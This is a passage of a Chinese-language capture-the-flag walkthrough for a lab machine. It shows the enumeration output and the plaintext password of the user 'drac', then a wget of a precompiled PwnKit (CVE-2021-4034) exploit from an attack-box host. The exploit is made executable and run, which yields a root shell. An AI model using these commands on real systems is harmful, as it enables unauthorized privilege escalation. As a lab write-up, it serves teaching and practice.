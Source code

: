 ```
 Swap usage: 0%* Canonical Livepatch is available for installation.
 — Reduce system reboots and improve kernel security. Activate at:
 https://ubuntu.com/livepatch69 packages can be updated.
1 update is a security update.Last login: [redacted]
**drac@ide:~$**
```

使用与`drac`相同的文件权限，我现在可以读取`user.txt`文件:

```
**drac@ide:~$ cat user.txt** [redacted]
```

下一步是获取`root.txt`标志，这可以通过利用 boot2root 系统中的权限提升错误来实现。我首先将 *Linux 智能枚举脚本* ( [Blanco，n.d.](https://github.com/diego-treitos/linux-smart-enumeration) )下载到 boot2root 系统上，然后运行它来寻找根系统的潜在候选对象。

```
**drac@ide:~$ ./lse.sh**
-----
If you know the current user password, write it here to check sudo privileges: **Th3dRaCULa1sR3aL** 
-----

 LSE Version: 4.2nwUser: drac
 User ID: 1000
 Password: ******
 Home: /home/drac
 Path: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
 umask: 0002Hostname: ide
 Linux: 4.15.0–147-generic
Distribution: Ubuntu 18.04.5 LTS
Architecture: x86_64======================( humanity )=========================
[!] nowar0 Should we question autocrats and their "military operations"?... yes![... snip ...][!] cve-2021-3560 Checking for policykit vulnerability..................... nope
[!] cve-2021-4034 Checking for PwnKit **# Interesting Exploit** vulnerability........................ yes!
---
Vulnerable!
---
[!] cve-2022-0847 Dirty Pipe **# Interesting Exploit** vulnerability................................. yes!
---
4.15.0-147-generic
---[... snip ...]**drac@ide:~$**
```

在未能通过肮脏管道漏洞([凯勒曼，2022](https://dirtypipe.cm4all.com/) )对系统进行根攻击后，我决定利用 PwnKit 漏洞以及 [Lyak(未注明)](https://github.com/ly4k/PwnKit)设计的编译和工作漏洞，自动将自己置于根外壳上:

```
**drac@ide:~$ wget http://<attackbox ip>:8888/exploits/PwnKit**
-- [redacted] --  http://<attackbox ip>:8888/exploits/PwnKit
Connecting to <attackbox ip>:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14688 (14K) [application/octet-stream]
Saving to: 'PwnKit'PwnKit 100%[============================================================>] [redacted] in 0.1s[redacted] (131 KB/s) — 'PwnKit' saved [14688/14688]**drac@ide:~$ ls -l PwnKit**
-rw-rw-r-- 1 drac drac 14688 [redacted] PwnKit
**drac@ide:~$ chmod +x PwnKit**
**drac@ide:~$ ./PwnKit**
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.**root@ide:/home/drac#**
```
